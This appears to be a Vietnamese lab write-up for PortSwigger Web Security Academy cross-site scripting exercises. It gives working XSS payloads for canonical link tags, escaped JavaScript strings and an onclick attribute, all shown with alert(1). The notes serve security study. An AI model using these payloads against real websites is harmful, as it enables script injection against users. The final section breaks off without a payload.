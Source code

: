 ## Reflected XSS in canonical link tag

Nhập 1 đoạn bất kì vào url thì response có:

`<link rel="canonical" href='https://0aec009104458097806f179d005600da.web-security-academy.net/?gdhgjk'/>`

Tìm hiểu về canonical link tag ta biết có thể dùng phím ấn để gọi lệnh Javascript, payload: `https://0ab60079038ae8b88043080f0096000e.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)`

On Windows: ALT+SHIFT+X

On MacOS: CTRL+ALT+X

On Linux: Alt+X

## Reflected XSS into a JavaScript string with single quote and backslash escaped

Context: Ta thấy nếu dùng `'` thì sẽ bị dùng dấu backslash (`\`) để escapse

Vậy bây giờ ta sẽ thoát hẳn đoạn `<script>` đó để tạo 1 đoạn `<script>` mới, 

payload: `</script><script>alert(1)</script>`


## Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

Bài này escape cả `<>`, `'`, `"`, `\`, nếu input là `abc'` thì nó sẽ thêm dấu `\` để escape

Vậy nếu gửi `abc\` thì nó sẽ tự chèn thêm `\` và vì có `\\` nó sẽ không thoát

Payload: `\'-alert(1)//`

## Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

Khi tạo bình luận nó sẽ đưa đoạn `http` vào theo:

`<a id="author" href="https://abc" onclick="var tracker={track(){}};tracker.track('https://abc');">abc</a>`

Bài này escape cả `<>`, `'`, `"`, ta sẽ tấn công vào sự kiện `onclick`, hoặc `href`

payload: `http://foo?&apos;-alert(1)-&apos;`, `http://foo?&#x27-alert(1)-&#x27`, cách này cũng có thể dùng với `href`

## Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

Bài này xuất hiện dấu `` ` `` nên có thể nghĩ đến tamplate và SSTI
